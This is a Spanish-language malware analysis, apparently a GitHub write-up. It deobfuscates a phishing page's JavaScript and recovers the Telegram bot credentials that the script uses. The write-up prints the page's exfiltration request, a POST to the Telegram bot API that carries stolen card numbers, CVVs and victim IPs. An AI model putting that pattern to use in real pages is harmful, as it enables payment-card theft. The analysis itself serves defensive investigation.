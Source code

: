 
<img width="1893" height="579" alt="Screenshot 2025-08-21 210214" src="https://github.com/user-attachments/assets/76b0cb7c-fcee-4aef-a9c1-9f91176007d7" />

Asi es, el HTML estaba corriendo 2 archivos Javascript con código de dudosa procedencia, los cuales estaban obfuscados, pero a pesar de eso era legible algo en el js incrustado algo relacionado a un bot de telegram. Esto se confirmo al encontrar y desobfuscar `tlgram.js`.


<img width="1898" height="533" alt="Screenshot 2025-08-21 210242" src="https://github.com/user-attachments/assets/821e4479-7b56-4190-b876-111bb58bf97d" />


**Y luego lo desobfusqué en https://deobfuscate.io/**


<img width="1338" height="835" alt="Screenshot 2025-08-22 010711" src="https://github.com/user-attachments/assets/6bb13361-dff3-4e9e-acbd-7af924405f5a" />


Ahora tenemos código mas legible, con el cual ya sabemos que el HTML hace una petición cuando se termina de recopilar los datos para enviarlos por un bot de telegram. Y la petición se veria asi:

```bash
POST https://api.telegram.org/bot<T0KEN>/sendMessage
Content-Type: application/json
cache-control: no-cache
{
  "chat_id": "<CHATID>",
  "text": "🍄🍄0UTL🍄🍄\n\nNUM-TARJ: [NÚMERO_TARJETA]\nN0MBR3: [NOMBRE_TITULAR]\nEXPIRACI0N: [MM]/[AA]\nCVV: [CVV]\n🌎IP: [IP_VÍCTIMA]\n[CIUDAD], [PAÍS]"
}
```
Ahora nos falta descubrir el valor de `<CHATID>` y de `<T0KEN>`. Para comenzar, descargamos `tlgram.js` y probamos dentro del mismo código obfuscado inyectarle código para que guarde los valores de las variables y las imprima.


<img width="1427" height="687" alt="Screenshot 2025-08-21 214015" src="https://github.com/user-attachments/assets/8db98171-1c56-4275-a2d6-1f297d643707" />


Tras intentarlo no obtenemos éxito inmediato, pues el ciberdelincuente habia pensado en que posiblemente alguien podia buscar esos valores y pues dividió ambos en varias cadenas cifradas que de descifran poco a poco. Tras obtener este conocimiento, se me ocurre una idea. Si purgamos en codigo linea por linea quizas podriamos obtener en un momento certero los valores de `<CHATID>` y `<T0KEN>` en las variables globales de las DevTools de Chrome en una pestaña apartada de Nodejs. Me puse manos a la obra y mi trabajo dió sus frutos. 

Primero en una terminal puse a Nodejs a correr el codigo cifrado hasta la primera linea con  `node --inspect-brk tlgram.js`


<img width="947" height="87" alt="Screenshot 2025-08-21 214119" src="https://github.com/user-attachments/assets/10ae39ff-324f-466d-8e4c-e3492ee8607f" />


Luego puse un breakpoint donde se definían las variables para pasarlas a las globales de DevTools depurandolas con la función *Step into* y *Step over*. Al correlo, eventualmentee, obtuve ambos valores en el *Scope* de las *DevTools* definidas como 2 variables globales. 


<img width="1919" height="924" alt="Diseño sin título (1)" src="https://github.com/user-attachments/assets/bacb345d-78c5-46a2-b984-c5667e7ca273" />
